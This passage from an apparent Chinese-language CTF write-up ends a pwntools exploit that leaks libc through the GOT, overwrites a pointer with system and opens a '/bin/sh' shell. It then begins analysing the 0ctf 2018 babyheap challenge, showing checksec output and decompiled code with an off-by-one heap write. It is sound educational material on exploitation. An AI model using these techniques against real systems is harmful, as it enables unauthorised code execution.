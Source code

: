 ```python
payload += p32(notelist + 0x4 * 3) # 2
payload += "/bin/sh\x00" # 3 4
allocate(len(payload), payload) # 1

update(1, p32(info) + "\n")
delete(0)
puts_got = u32(p.recvuntil("\xf7")[-4:])
libc.address = puts_got - libc.symbols['puts']
system = libc.symbols['system']
update(1, p32(system) + "\n")

delete(2)

p.interactive()

```

## 0ctf 2018 babyheap

### 防护

```
liwc@ubuntu:~/pwn/pwn/baby-heap-2018$ checksec babyheap
[*] '/home/liwc/pwn/pwn/baby-heap-2018/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

全防护

### 分析

#### allocate

​	最多16个chunk，size不大于0x58，每次calloc之后将list数组上对应位置的inuse置1，并存储size和chunkptr，但是并没有写入chunk的内容。

#### update

​	输入Index和一个size，然后如果输入的size小于等于原来的size+1，就可以以输入的size向堆上写，也就是这里存在off by one漏洞。

```c
int __fastcall update(element *list)
{
  unsigned __int64 oldSizePlus1; // rax
  signed int i; // [rsp+18h] [rbp-8h]
  int newsize; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  i = getlong();
  if ( i >= 0 && i <= 15 && list[i].inuse == 1 )
  {
    printf("Size: ");
    LODWORD(oldSizePlus1) = getlong();
    newsize = oldSizePlus1;
    if ( (signed int)oldSizePlus1 > 0 )
    {
      oldSizePlus1 = list[i].size + 1;
      if ( newsize <= oldSizePlus1 )
      {
        printf("Content: ");
        readN((char *)list[i].chunkptr, newsize);// off by one
        LODWORD(oldSizePlus1) = printf("Chunk %d Updated\n", (unsigned int)i);
```